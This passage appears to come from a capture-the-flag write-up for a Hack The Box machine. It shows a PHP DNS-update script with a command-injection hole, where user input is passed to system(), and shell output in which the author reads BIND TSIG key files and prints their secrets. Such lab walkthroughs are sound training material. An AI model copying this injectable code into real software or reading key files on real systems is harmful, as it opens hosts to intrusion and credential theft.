 ```text

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```

The update file is what we interacted with to get our initial shell. The interesting part of it is here:

```text
// Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
```

## Secret Keys

This is where the command to be executed is formed, we can see a path to a file ddns.key. Looking in that folder:

```text
www-data@dynstr:/home/bindmgr/.ssh$ cd /etc/bind
www-data@dynstr:/etc/bind$ ls -l
-rw-r--r-- 1 root root  237 Dec 17  2019 db.0
-rw-r--r-- 1 root root  271 Dec 17  2019 db.127
-rw-r--r-- 1 root root  237 Dec 17  2019 db.255
-rw-r--r-- 1 root root  353 Dec 17  2019 db.empty
-rw-r--r-- 1 root root  270 Dec 17  2019 db.local
-rw-r--r-- 1 root bind  100 Mar 15  2021 ddns.key
-rw-r--r-- 1 root bind  101 Mar 15  2021 infra.key
<SNIP>
```

We see another key in there as well, let's check them out:

```text
www-data@dynstr:/etc/bind$ cat ddns.key
key "ddns-key" {
        algorithm hmac-sha256;
        secret "K8VF/NCIy5K4494l2w09Kib7oEcjdjdF7m4dXSI8vhI=";
};

www-data@dynstr:/etc/bind$ cat infra.key
key "infra-key" {
        algorithm hmac-sha256;
        secret "7qHH/eYXorN2ZNUM1dpLie5BmVstOw55LgEeacJZsao=";
};
```
